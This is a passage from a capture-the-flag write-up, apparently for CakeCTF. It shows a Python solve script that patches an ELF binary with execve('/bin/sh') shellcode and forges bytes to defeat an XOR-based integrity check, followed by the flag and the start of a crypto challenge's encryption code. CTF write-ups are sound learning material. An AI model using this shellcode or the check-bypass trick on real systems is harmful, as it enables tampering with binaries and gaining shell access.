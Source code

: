 ```py

# replace __do_global_dtors_aux with shellcode
sc = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + b'\x90'*36
shelf = elf[:0x1100] + sc + elf[0x1100 + len(sc):]

# get the running verification value for the original elf up to where
# our shellcode ends then change the trailing bytes such that the running
# verification value for the modified elf is the same at that point, so
# that the verification value will be the same for the entire chunk
orig_verif_val = vxor(elf[0x1100:0x1100+len(sc)])
mod_verif_val = vxor(shelf[0x1100:0x1100+len(sc)-32])

mod_str = b''
for i in range(32):
    b = (orig_verif_val & 1) ^ (mod_verif_val & 1)
    mod_str += chr(b).encode()
    orig_verif_val >>= 1
    mod_verif_val >>= 1

shelf = elf[:0x1100] + sc[:-32] + mod_str + elf[0x1100+len(sc):]

assert validate_elf(shelf, aldrya[4:])
open('sh.elf', 'wb').write(shelf)
```

Flag: `CakeCTF{jUst_cH3ck_SHA256sum_4nd_7h47's_f1n3}`

---

# Party Ticket <a name="party-ticket"></a>

> Komachi is going to invite Moe and Lulu to the party. But... she is shy and she encrypted the invitations. Nanado's secret mission is to decrypt these tickets so Komachi won't get lonely.

```py
from Crypto.Util.number import getPrime, isPrime
from hashlib import sha512
import random

def getSafePrime(bits):
    while True:
        p = getPrime(bits - 1)
        q = 2*p + 1
        if isPrime(q):
            return q

def make_inivitation():
    with open("flag.txt", "rb") as f:
        flag = f.read().strip()
        m = int.from_bytes(flag + sha512(flag).digest(), "big")

    p = getSafePrime(512)
    q = getSafePrime(512)

    n = p * q
    assert m < n

    b = random.randint(2, n-1)

    c = m*(m + b) % n

    return c, n, b

```